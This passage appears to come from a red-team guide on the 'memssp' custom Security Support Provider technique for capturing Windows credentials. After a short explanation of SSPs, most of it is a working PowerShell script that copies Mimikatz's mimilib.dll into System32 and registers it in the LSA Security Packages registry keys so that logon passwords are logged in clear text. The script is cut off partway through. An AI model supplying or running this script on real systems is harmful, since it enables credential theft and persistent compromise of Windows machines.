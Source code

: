 ## 🎭 Custom SSP (memssp) Implementation

### **What is Custom SSP (memssp)?**
**Custom Security Support Provider (SSP)** is a technique that injects malicious code into the Local Security Authority Subsystem Service (LSASS) process to capture credentials in real-time. The **memssp** technique specifically uses Mimikatz to inject a custom SSP that logs all local logons, service account passwords, and machine account passwords in clear text.

#### **SSP Fundamentals**
**Security Support Providers** are DLLs that provide authentication methods for applications. Microsoft's default SSPs include:
- **NTLM**: Windows NT LAN Manager authentication
- **Kerberos**: Kerberos v5 authentication protocol
- **WDigest**: Digest authentication
- **CredSSP**: Credential Security Support Provider

### **Custom SSP Implementation Methods**

#### **Method 1: Mimilib.dll File-Based SSP**
```powershell
# Objective: Drop mimilib.dll to system32 and register it as an SSP
# Impact: All local logons are logged to C:\Windows\system32\mimilsa.log

Write-Host "=== CUSTOM SSP VIA MIMILIB.DLL ===" -ForegroundColor Red

# Step 1: Check if mimilib.dll exists in current directory
$mimilibPath = ".\mimilib.dll"
if(Test-Path $mimilibPath) {
    Write-Host "Found mimilib.dll - proceeding with SSP installation" -ForegroundColor Green
    
    # Step 2: Copy mimilib.dll to system32 (requires admin privileges)
    $system32Path = "$env:SystemRoot\System32\mimilib.dll"
    try {
        Copy-Item -Path $mimilibPath -Destination $system32Path -Force
        Write-Host "Successfully copied mimilib.dll to System32" -ForegroundColor Green
        
        # Step 3: Add mimilib to Security Packages registry key
        $securityPackagesPath = "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig"
        $currentPackages = Get-ItemProperty -Path $securityPackagesPath -Name "Security Packages" -ErrorAction SilentlyContinue
        
        if($currentPackages) {
            $packages = $currentPackages."Security Packages"
            if($packages -notcontains "mimilib") {
                $packages += "mimilib"
                Set-ItemProperty -Path $securityPackagesPath -Name "Security Packages" -Value $packages
                Write-Host "Added mimilib to Security Packages registry" -ForegroundColor Green
            } else {
                Write-Host "mimilib already in Security Packages registry" -ForegroundColor Yellow
            }
        }
        
        # Step 4: Also add to main Security Packages key
        $mainSecurityPackagesPath = "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa"
        $mainPackages = Get-ItemProperty -Path $mainSecurityPackagesPath -Name "Security Packages" -ErrorAction SilentlyContinue
        
        if($mainPackages) {
            $mainPackagesList = $mainPackages."Security Packages"
            if($mainPackagesList -notcontains "mimilib") {
                $mainPackagesList += "mimilib"
```